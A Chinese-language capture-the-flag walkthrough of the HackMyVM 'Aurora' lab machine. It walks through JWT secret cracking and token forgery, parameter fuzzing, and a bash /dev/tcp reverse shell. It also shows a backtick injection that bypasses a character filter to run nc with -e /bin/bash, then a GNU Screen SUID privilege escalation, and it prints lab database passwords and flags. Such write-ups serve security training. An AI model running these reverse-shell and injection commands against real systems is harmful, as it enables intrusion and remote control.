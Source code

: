# Aurora

2025.03.12 https://hackmyvm.eu/machines/machine.php?vm=Aurora

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

发现 3000 使用的是 Express ，get 方式扫描目录没结果，使用 post 方式再次扫描 web 目录。

```
gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.5.39:3000/ -m POST

http://192.168.5.39:3000/register             (Status: 400) [Size: 29]
http://192.168.5.39:3000/login                (Status: 401) [Size: 22]
http://192.168.5.39:3000/Login                (Status: 401) [Size: 22]
http://192.168.5.39:3000/Register             (Status: 400) [Size: 29]
http://192.168.5.39:3000/execute              (Status: 401) [Size: 12]
http://192.168.5.39:3000/LogIn                (Status: 401) [Size: 22]
http://192.168.5.39:3000/LOGIN                (Status: 401) [Size: 22]
http://192.168.5.39:3000/logIn                (Status: 401) [Size: 22]
```

使用 postman 进行测试，POST 方式访问 http://192.168.5.39:3000/register 提示 The "role" field is not valid，然后提交的 json 参数中进行探测，role:admin、role:user 发现 user 成功，这时又提示 Column 'username' cannot be null ，再添加个 username 参数，然后又提示 Column 'password' cannot be null ，再添加个 password 字段：

```
{
    "role": "user",
    "username": "jack",
    "password": "jack"
}
```

这时提示 Registration OK，然后用这个注册的用户凭据在调用http://192.168.5.39:3000/login 接口:

```
{
    "role": "admin",
    "username": "jack",
    "password": "jack"
}

返回
{
    "accessToken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImphY2siLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MTc4MDQ4N30.P30q1STpQlI0krsAF6V7K_NQKX2P3OojkgMuDQK3DAU"
}
```

发现是 jwt，解析后显示：

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "jack",
  "role": "user",
  "iat": 1741779158
}
```

可以使用这个在线网站进行操作 https://jwt.p2hp.com/ ，将 role 修改成 admin，username 修改成 admin，看看能否有未授权访问，但是不行。在访问/login 还是显示未授权，修改后认证不成功。

爆破一下 jwt 中的密钥，将 jwt 字符串保存在文本中使用 john 进行爆破：

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --pot=./pot
```

得到密码 nopassword ，然后对 jwt 进行修改成 usernaem:admin 和 role:admin

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c
```

修改请求头中的信息：

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' http://192.168.5.39:3000/execute
```

执行后报错说缺少 file 参数，使用 ffuf 探测一下参数:

```
ffuf -t 100 -c -X POST -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.39:3000/execute -d '{"FUZZ":"id"}' -ac
```

找到参数名为 command 进而执行反弹:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' -d '{"command":"/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\""}' http://192.168.5.39:3000/execute
```

得到 shell 后，发现 app.js 文件，查看内容发现连接数据库的配置信息：

```
const pool = mysql.createPool({
  host: 'localhost',
  user: 'admin',
  password: 'zMgRthZraw6Sf',
  database: 'auroraDB',
});

MariaDB [auroraDB]> select * from users;
+----+----------+--------------+-------+
| id | username | password     | role  |
+----+----------+--------------+-------+
|  1 | admin    | CMcvw9Q5v79Z | admin |
| 29 | jack     | jack         | user  |
+----+----------+--------------+-------+
```

sudo -l 显示 `(doro) NOPASSWD: /usr/bin/python3 /home/doro/tools.py *` 在脚本中字符串拼接可以执行命令 os.system('ping -c 2 ' + ip_address) , 但是在代码中对分隔符进行了过滤：

```
forbidden_chars = ["&", ";", "(", ")", "||", "|", ">", "<", "*", "?"]
```

但是没有过滤 `` 所以可以直接先执行反引号中的命令,正好目标机器上有 nc：

```
`nc 192.168.5.3 8888 -e /bin/bash`
```

拿到了 user flag：

```
doro@aurora:~$ cat user.txt
ccd839df5504a7ace407b5aeca436e81
```

发现 suid 程序 screen GNU_Screen_4.5.0 这个版本有漏洞 https://www.exploit-db.com/exploits/41154 按照这里面的操作执行，最终拿到了 root 权限：

```
# cat root.txt
052cf26a6e7e33790391c0d869e2e40c
```
